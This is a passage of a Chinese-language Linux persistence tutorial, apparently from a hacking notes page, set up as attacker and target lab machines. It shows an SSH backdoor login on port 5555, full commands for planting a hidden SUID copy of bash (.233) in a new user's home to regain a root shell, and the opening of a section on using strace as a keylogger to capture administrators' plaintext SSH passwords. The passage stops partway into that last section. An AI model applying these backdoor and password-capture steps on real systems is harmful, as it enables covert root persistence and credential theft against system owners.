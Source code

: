 攻击机

```
[root@debian ~]# ssh root@172.16.42.151 -p 5555
root@172.16.42.151's password:
```

**需要输入密码**



## 11. suid shell

在某个用户目录下建立一个隐藏的suid文件.233，之后在每次使用时，以其他普通用户的身份使用-p选项运行此文件，即可获得一个root权限的shell

```
/home/shadowtest/.233 -p
```



靶机：

```
[root@vuln /home]# useradd -d /home/shadowtest -m shadowtest
[root@vuln /home]# passwd shadowtest
新的 密码：
重新输入新的 密码：
passwd：已成功更新密码
[root@vuln /home]# cp /bin/bash /home/shadowtest/.233
[root@vuln /home]# chmod 4755 /home/shadowtest/.233
```

攻击机：

```
[root@debian ~]# ssh shadowtest@172.16.42.151
shadowtest@172.16.42.151's password:
$ whoami
shadowtest
$ /home/shadowtest/.233 -p
.233-5.0# whoami
root
```



## 12 SSH Keylogger（Strace）

注意区别ptrace。

strace是一个可用于诊断、调试和教学的Linux用户空间跟踪器。我们用它来监控用户空间进程和内核的交互，比如系统调用、信号传递、进程状态变更等。

**第一种方式**

当前系统如果存在strace的话，它可以跟踪任何进程的系统调用和数据，可以利用 strace 系统调试工具获取 ssh 的读写连接的数据，以达到抓取管理员登陆其他机器的明文密码的作用。

如果系统没有安装strace服务，先给他安装一个

```
apt install strace
```
